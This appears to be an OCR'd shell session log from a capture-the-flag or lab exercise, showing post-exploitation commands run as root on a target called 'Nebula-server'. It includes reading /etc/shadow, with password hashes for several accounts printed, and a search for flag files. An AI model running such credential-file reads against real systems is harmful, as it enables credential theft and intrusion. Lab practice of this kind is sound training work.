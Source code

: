 hostname
Nebula-server
uname -a
Linux Nebula-server 4.4.0-142-generic #168~14.04.1-Ubuntu SMP Sat Jan 19 11:26:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
cat /etc/passwd | wc -l
26
cat /etc/shadow | grep root
root:$6$dTV9ZkDw$ZULnb36XSMz1fv4LzsGXZnq7FpRx3H6v3CUmD/iySvY4M/9lzVGUVv81ChJsasATlegYJLib8Ciw1/fowpi2s0:20014:0:99999:7:::
sudo cat /etc/shadow
root:$6$dTV9ZkDw$ZULnb36XSMz1fv4LzsGXZnq7FpRx3H6v3CUmD/iySvY4M/9lzVGUVv81ChJsasATlegYJLib8Ciw1/fowpi2s0:20014:0:99999:7:::
daemon:*:17959:0:99999:7:::
bin:*:17959:0:99999:7:::
sys:*:17959:0:99999:7:::
sync:*:17959:0:99999:7:::
games:*:17959:0:99999:7:::
man:*:17959:0:99999:7:::
lp:*:17959:0:99999:7:::
mail:*:17959:0:99999:7:::
news:*:17959:0:99999:7:::
uucp:*:17959:0:99999:7:::
proxy:*:17959:0:99999:7:::
www-data:*:17959:0:99999:7:::
backup:*:17959:0:99999:7:::
list:*:17959:0:99999:7:::
irc:*:17959:0:99999:7:::
gnats:*:17959:0:99999:7:::
nobody:*:17959:0:99999:7:::
libuuid:!:17959:0:99999:7:::
syslog:*:17959:0:99999:7:::
messagebus:*:20014:0:99999:7:::
landscape:*:20014:0:99999:7:::
guakamole:$6$kVXyIMLn$A6bPHFDkYFqd/dS58eGsJmK2lYnlEQxtgYX6H/6WxdC.V21j/P8IaseqnKibDBq1PkdmRqgPO2CU3dd/U6gCl1:20014:0:99999:7:::
sshd:*:20014:0:99999:7:::
bind:*:20021:0:99999:7:::
bluffer:$6$XDj2Khlp$3O50apIJ/1wbvCbfCRFWQsyVgp3BXTB.sQfQLGvIfpLHAulDOFXADfugbba8uPFc93CVUZTTBGZvdvOIl7mWc/:20186:0:99999:7:::
cat /etc/passwd | grep <nombre_usuario>
/bin/sh: 22: Syntax error: newline unexpected
[*] 10.10.33.174 - Command shell session 1 closed.

whoami 
root
find / -name 'flag*'
/usr/src/linux-headers-4.4.0-142-generic/include/config/zone/dma/flag.h
/usr/src/linux-headers-4.4.0-142/scripts/coccinelle/locks/flags.cocci
/usr/lib/python2.7/dist-packages/dns/flags.py
/usr/lib/python2.7/dist-packages/dns/flags.pyc
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/vif-0/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
